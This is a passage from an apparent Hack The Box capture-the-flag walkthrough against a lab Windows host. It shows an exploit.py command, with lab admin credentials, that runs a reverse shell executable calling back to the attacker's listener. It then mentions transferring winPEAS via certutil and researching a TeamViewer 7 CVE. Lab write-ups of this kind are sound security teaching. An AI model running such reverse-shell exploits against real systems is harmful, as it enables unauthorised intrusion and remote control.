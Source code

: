 ```
sudo python3 exploit.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c cmd.exe -a '/c c:/users/public/reverseshell.exe '
```

Once this is run we should get a call back on our listener.

![](<../../../.gitbook/assets/image (376).png>)

As per standard practice I transferred over `winPEAS.exe` using `certuil.exe` and then run it. I found TeamViewer7 as being an installed application. Knowing that 7 is an old version of Teamviewer I went to Google to research exploits.

![](<../../../.gitbook/assets/image (377).png>)

After searching for exploits with the current version we come across this which has a CVE score of 7.0.

![](<../../../.gitbook/assets/image (378).png>)
